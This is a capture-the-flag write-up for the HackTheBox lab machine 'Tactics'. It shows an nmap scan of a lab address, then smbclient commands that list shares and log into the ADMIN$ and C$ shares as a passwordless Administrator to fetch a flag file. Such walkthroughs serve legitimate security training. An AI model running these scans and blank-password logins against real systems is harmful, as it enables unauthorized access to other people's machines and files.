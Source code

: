 ```yaml
---
title: "HackTheBox - Tactics"
author: Nasrallah
description: ""
date: 2022-07-03 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, smb]
img_path: /assets/img/hackthebox/machines/tactics/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Tactics](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -Pn {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -Pn: Treat all hosts as online -- skip host discovery. Usually for windows targets.

```terminal
Nmap scan report for 10.129.195.131 (10.129.195.131)
Host is up (0.15s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-07-27T18:39:27
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
```

We have a windows machine running SMB.

### SMB

We can enumerate SMB using `smbclient`. The full command is as follows:`sudo smbclient -L 10.129.195.131`

>-L: list shares.

![](1.png)

Couldn't enumerate the share and got access denied, let's try this time as user `Administrator`. `sudo smbclient -L 10.129.195.131 -U Administrator`

![](2.png)

We found 3 shares.

- IPC$ share: is also known as a null session connection. By using this session, Windows lets anonymous users perform certain activities, such as enumerating the names of domain accounts and network shares.

The other two, ADMIN$ and C$ are disk shares so we might be able to login into them.

## **Foothold**

Let's try login to the ADMIN$ share.`sudo smbclient \\\\10.129.195.131\\ADMIN$ -U Administrator`.

![](3.png)

We managed to login without a password, but this share doesn't have much use for us. The C$ share on the other hand can be very useful since it is the file system of Windows. `sudo smbclient \\\\10.129.195.131\\C$ -U Administrator`

![](4.png)

Great! We are in the c drive, to retrieve the flag, use the following command: get Users\Administrator\Desktop\flag.txt`

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
